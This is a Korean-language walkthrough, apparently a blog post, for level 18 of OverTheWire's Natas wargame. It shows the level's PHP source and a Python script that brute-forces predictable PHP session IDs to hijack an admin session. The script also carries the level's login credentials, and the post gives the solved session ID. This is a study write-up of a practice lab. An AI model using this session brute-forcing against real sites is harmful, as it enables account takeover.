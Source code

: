 ```yaml
---
title: Natas Level 17 → Level 18 풀이
date: 2024-04-23 01:53:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0423/natas18a.png
---
```

<br>
## 로그인
---
> Username: natas18
> <br> URL: <http://natas18.natas.labs.overthewire.org>

<br>
이번에는 username과 password를 입력하는 칸이 있다.<br>
소스코드를 보자.<br>
<br>
{% raw %}
```php
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>
```
{% endraw %}

<br>
<br>
<br>
## 풀이
---
<br>createID 함수에서 입력받은 user에 따라 640까지의 정수 중 랜덤으로 세션ID를 생성한다.<br>
<br>print_credentials() 함수에서
생성된 세션ID가 admin의 세션ID와 일치할 경우($_SESSION["admin"] 가 1인 경우),<br>
natas19의 패스워드가 출력되는 듯 하다.<br>


admin의 세션ID를 모르지만 640까지의 정수 중 하나일테니 자동화 프로그램을 써서 찾으면 된다.<br>


<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
 
def find_session_ids():
    url = 'http://natas18.natas.labs.overthewire.org/'
    auth = ('natas18', '8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq')
 
    for session_id in range(1, 641):
        cookies = {'PHPSESSID': str(session_id)}
        response = requests.get(url, auth=auth, cookies=cookies)
 
        if "You are an admin" in response.text:
            print(f"Admin session ID found: {session_id}")
            break
 
find_session_ids()
```


세션ID를 하나씩 날리다가 "You are an admin" 이라는 텍스트가 뜨는 경우의 세션ID를 출력하게 했다.<br>


admin의 세션ID값은 119였다.<br>
이걸로 쿠키 변조하면 natas19의 패스워드가 나온다.<br>
<br>![Desktop View](assets/img/0423/natas18b.png){: w="700" h="400" }<br>